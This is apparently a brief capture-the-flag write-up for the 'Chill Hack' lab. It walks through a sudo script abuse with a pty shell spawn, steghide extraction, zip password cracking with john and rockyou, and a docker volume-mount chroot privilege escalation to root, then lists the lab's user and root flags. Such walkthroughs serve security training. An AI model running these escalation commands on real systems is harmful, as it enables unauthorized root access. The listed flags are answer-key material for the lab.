 # Chill Hack-Remote Code Execution with blacklist protection&docker privilege escalation

```
export IP=10.10.141.156
```

# Material needed

1. Interesting directory: /secret

2. Privilege escalation to user apaar

```
sudo -u apaar /home/apaar/.helpline.sh

/bin/bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

3. user anurodh password

```
steghide --extract -sf hacker-with-laptop_23-2147985341.jpg

# Crack zip password
zip2john backup.zip > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash

cat source_code.php
Result: !d0ntKn0wmYp@ssw0rd
```

4. Privilege escalation

```
docker images
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

# Tasks

1. User flag

```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

2. Root flag

```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```